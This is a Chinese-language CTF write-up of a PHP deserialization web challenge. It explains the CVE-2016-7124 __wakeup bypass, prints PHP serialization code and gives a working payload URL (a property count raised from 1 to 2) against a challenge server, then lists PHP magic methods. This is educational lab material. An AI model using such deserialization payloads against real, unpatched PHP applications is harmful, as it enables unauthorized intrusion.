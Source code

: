 本题为代码审计
题目：

class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=

首先进行代码审计，
（1）可以看到xctf类只拥有一个public的flag变量，值为111。
（2）public属性序列化后格式为：数据类型:属性名长度:"属性名";数据类型:属性值长度:"属性值"。
（3）本题目中，只存在一个变量，正常情况下序列化后，如下所示。
	O:4:"xctf":1:{s:4:"flag";s:3:"111";}
（4）将设置属性值为2，可导致反序列化异常，如下所示。
	O:4:"xctf":2:{s:4:"flag";s:3:"111";}


有漏洞（CVE-2016-7124）可以通过**使序列化字符串中表示对象属性个数的值大于真实的属性个数，以此跳过__wakeup的执行**，
而PHP5 < 5.6.25， PHP7 < 7.0.10 的版本存在wakeup的漏洞。


然后根据Web_php_unserialize这道题的解法，写出代码：
<?php
class xctf{                      //定义一个名为xctf的类
public $flag = '111';            //定义一个公有的类属性$flag，值为111
public function __wakeup(){      //定义一个公有的类方法__wakeup()，输出bad requests后退出当前脚本
exit('bad requests');
}
}
$test = new xctf();           //使用new运算符来实例化该类（xctf）的对象为test
echo(serialize($test));       //输出被序列化的对象（test）
?>

得到结果：O:4:"xctf":1:{s:4:"flag";s:3:"111";}
为绕过wakeup函数，需要使得序列化字符串中标识变量数量的值大于实际变量即可绕过,为此需要将1变为2：
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
根据代码中的?code= 可得知，将得到的序列化字符串赋值给code进行传递
最后需要给url传参，结果为：
http://220.249.52.133:34129?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

writeup2:
深度剖析PHP序列化与反序列化：https://www.cnblogs.com/youyoui/p/8610068.html
__wakeup()函数用法:

wakeup()是用在反序列化操作中。unserialize()会检查存在一个wakeup()方法。如果存在，则先会调用__wakeup()方法。

该writeup浅显易懂，值得再看一遍

writeup3：
serialize()     //将一个对象转换成一个字符串
unserialize()   //将字符串还原成一个对象

通过序列化与反序列化我们可以很方便的在PHP中进行对象的传递。本质上反序列化是没有危害的。但是如果用户对数据可控那就可以利用反序列化构造payload攻击。

在利用对PHP反序列化进行利用时，经常需要通过反序列化中的魔术方法，检查方法里有无敏感操作来进行利用。

常见方法

__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发

比较重要的方法
__sleep()

    serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个 E_NOTICE 级别的错误。

对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性。
__wakeup()

    unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

